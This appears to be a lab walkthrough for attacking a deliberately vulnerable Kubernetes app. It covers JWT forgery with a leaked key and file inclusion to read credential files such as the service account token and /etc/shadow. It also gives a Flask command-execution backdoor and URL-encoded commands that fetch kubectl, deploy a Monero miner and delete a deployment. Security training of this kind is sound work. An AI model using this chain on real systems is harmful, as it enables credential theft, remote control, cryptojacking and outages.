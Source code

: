 # Exploit Application Vulnerabilities


Application vulnerabilities can bring wide range of different entrypoints. In addition to Kubernetes-specific vulnerabilities and misconfigurations, this can lead to various beautiful attacks.



## Attack
- get the `SECRET_KEY`:
  - either find the [leaked value](http://rus-vote.seck8s.slurm.io/clusters/local/namespaces/vulnapp/deployments/images-api) in the exposed unprotected Dashboard
  - or check the Git-blame to find the hard-coded secret in sources *vulnerability: [hard-coded credentials](https://owasp.org/www-community/vulnerabilities/Use_of_hard-coded_password)*
- register a test user in `auth-api`, get the JWT (with `user_role='user'`)
- proceed to `images-api` with the JWT token, see the image (partially logged in)
- decode the JWT token using the leaked secret key and modify `user_role='admin'` (*vulnerability: [Broken User Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)*)
- proceed to `images-api` with the new token, see the admin page
- read some files: `/var/run/secrets/kubernetes.io/serviceaccount/token`, `./app.py`, `/etc/shadow`, `/proc/1/environ`, etc.: (*vulnerability: [LFI, Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)*)
- write the `./app.py` with backdoor activated via GET parameter `cmd` ([Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload))
    ```python
    ...
    @app.route("/", methods=["GET"])
    def home():
        cmd = request.args.get('cmd')
        if cmd:
            import subprocess
            p = subprocess.run(["bash", "-c", cmd], stderr=subprocess.STDOUT, stdout=subprocess.PIPE)
            return p.stdout.decode()
        ...
    ```
- since the server is in Debug mode, it auto-reloads without restarting the pod
- use the backdoor to install `kubectl`:
  - `?cmd=apt-get+update`
  - `?cmd=apt-get+-y+install+curl`
  - Next, from https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/ :
  - `?cmd=curl%20-LO%20%22https://dl.k8s.io/release/$(curl%20-L%20-s%20https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl%22`
  - `?cmd=install%20-o%20root%20-g%20root%20-m%200755%20kubectl%20/usr/local/bin/kubectl`
  - `?cmd=kubectl+get+all`
- now you can use kubectl configured to the workload's service account (deploy a miner): `?cmd=kubectl+apply+-f+images/monero-deployment.yaml`
- or shut down the cluster's payload (Deployment only, permitted by RBAC): `?cmd=kubectl+delete+deployment+auth-api`

> Note: inside the pod, kubectl is authenticated to the pod's SA. However, you could save SA's `token` and `ca.crt` to your local machine and, knowing the Kube API public URI, you can acess it remotely:
> ```kubectl --server=https://kubernetes.default.svc --certificate-authority=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt --token=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) <command>```


## Steps to reproduce

1. Deploy [vulnerable-app](vulnerable-app) (both `auth-api` and `images-api`)
2. Go to [auth service](http://auth.vulnapp.seck8s.slurm.io/)
3. Sign-up any user and login
4. Get redirection to the [image service](https://images.vulnapp.seck8s.slurm.io/) with the greatest cat in the world :)
5. Decode JWT token and try to get more privileges
6. Write any interesting file (take a look at the image b64 data you'll receive)
7. Upload any interesting file (note: the container runs as root so you're relatively free)
8. Get working `kubectl` for the cluster
